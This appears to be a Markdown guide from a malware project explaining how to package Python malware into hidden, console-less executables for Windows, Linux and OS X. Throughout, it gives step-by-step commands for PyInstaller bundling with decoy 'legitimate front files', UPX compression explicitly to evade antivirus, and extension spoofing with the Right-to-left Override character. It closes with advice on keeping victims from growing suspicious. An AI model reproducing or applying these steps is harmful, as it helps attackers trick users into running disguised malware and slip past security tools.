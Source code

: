 # Packaging

Package you malwares as a single file executable with no console launching feature to hide the existence of malware in the target computer after deployment. This executable can be formed in *Windows* or *Linux* through the following ways. 

## Packaging python malwares into executables using Pyinstaller for Windows

### Using Windows OS to package the executable

* Install Pyinstaller in Windows;

> python.exe -m pip install pyinstaller 

* Use the Pyinstaller to create executable (.exe) of the malware

> pyinstaller.exe *<python malware code\>* --onefile --noconsole

### Using a Linux machine to create a Windows execuatble

* Download pythonX.XX.msi intepreter for windows from official site. *(X is a digit for the version to use)*
* Use **wine** to install the interpreter

> wine msiexec /i python-X.XX.XX.msi

* Go to directory of installed python executable; then

> wine python.exe -m pip install pyinstaller

* Install all the libraries that are required by your script if any

> wine python.exe -m pip install *<package name\>*

or

> wine python.exe -m pip install -r Requirements.txt

* Go to directory of installed pyinstaller;

* For a general executable;

> wine pyinstaller.exe --onefile --noconsole *<path_of_main_program\>*

* To add a **legitimate front file** to the executable

> wine pyinstaller.exe --onefile --noconsole --add-data *"<path_of_legitimate_file\>:."* *<path_of_main_program\>*

## Executable Compression using UPX

To compress your malware executable which may help avoid detection my antivirus softwares, we can use UPX

* Download latest version of UPX from https://github.com/upx/upx/releases and extract it
* Use binary for compression;

> ./upx *<path_of_backdoor_execuatable\>* -o *<new_compressed_executable_name\>*

## Adding an ICON to the malware executable

* Pick an ICON from https://www.iconfinder.com/ and download it
* Convert the .png file into .ico file. (You can use https://www.easyicon.net/language.en/covert/ )
* Use wine command to create executable with icon;

> wine pyinstaller.exe --onefile --noconsole --add-data *"<path_of_legitimate_file\>:."* --icon *<path_of_the_ICO_file\>* *<path_of_main_program\>*

## Spoofing the extension of the malware extension

* Use the **Right-to-left Override (U+202E)** character in the executable name. It can be found in *Characters* application in Linux.
* If it is not available, use https://r12a.github.io/app-conversion/ or similar converters to convert the hex code (U+202E) to the character and copy it from the same.
* Example: If the cover file is a .png image(let say of a bike; so your malware is named bike.exe); Rename it to something like bikegnp.exe and Add the Right-to-left Override before *gnp.exe* part. The file will seem renamed from *bikegnp.exe* to *bikeexe.png*.
* Read more about Right-to-left Override character and its usage from https://krebsonsecurity.com/tag/right-to-left-override/

## Packaging python malwares into executables using Pyinstaller for OS X

It is better to create an executable for OS X in an OS X operating system. 

* Python comes preinstalled in OS X, but the pip is slighly broken. To fix the packages, download *get-pip.py* from official site https://bootstrap.pypa.io. Run it as;

> sudo python get-pip.py

* Install pyinstaller;

> sudo pip install pyinstaller

The rest process is very similar to creating a Windows Executable with certain differences.
* Download the .ICNS format of ICON instead of .ICO, since it better readable in OS X
* Create OS X executable using;

> pyinstaller --onefile --noconsole --icon *<path_of_icns_file\>* --add-data *"<path_of_legitimate_file\>:."* *<path_of_main_program\>*

Note: In OS X file extension is not really important, so that addition is optional

## Packaging python malwares into executables for Linux
This process of packaging is very similar to that of Windows and OS X. However, it is important to know that in linux, if the malware executable is double clicked, there is a chance, Linux machine will prompt with a message **Could not display <malware_execuatble_name\>**. And when the victim explores options to open the file, he/she may get suspicious. Hence, try to embed the malicious code with another executable front file, that victim voluntarily chooses to execute on their system, causing the malware to executed simultaneously.